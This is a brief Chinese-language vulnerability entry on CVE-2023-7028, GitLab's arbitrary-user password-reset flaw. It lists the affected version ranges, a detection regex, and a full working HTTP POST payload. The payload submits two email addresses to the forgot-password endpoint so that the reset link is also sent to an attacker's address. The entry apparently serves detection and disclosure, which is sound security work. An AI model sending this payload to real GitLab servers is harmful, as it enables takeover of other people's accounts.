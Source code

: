 ### 漏洞描述：

CVE-2023-7028 GitLab 任意用户密码重置漏洞，攻击者可以利用忘记密码功能，构造恶意请求获取任意账号密码重置链接从而重置密码。

### 影响版本：

16.1 <= Gitlab CE/EE < 16.1.6

16.2 <= Gitlab CE/EE < 16.2.9

16.3 <= Gitlab CE/EE < 16.3.7

16.4 <= Gitlab CE/EE < 16.4.5

16.5 <= Gitlab CE/EE < 16.5.6

16.6 <= Gitlab CE/EE < 16.6.4

16.7 <= Gitlab CE/EE < 16.7.2

### 正则表达式：

(?i)&user.*&user

### Payload：

```
POST /users/password HTTP/1.1
Host: host
Content-Length: 187
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://host
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://host/users/password/new
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: _gitlab_session=a24deffb7bc6b695aa82c3ad9f227258
Connection: close

authenticity_token=XoocxzQUkgVfw4GlZ-Nk4aLo3rHROqeB_YJsyljOPpnj5FnMNJhDrSMa2ft58qM_680wLghb_CAQLximm6yARg&user%5Bemail%5D%5B%5D=A%40bigassmail.com&user%5Bemail%5D%5B%5D=B%40smallassmail.com
```

---
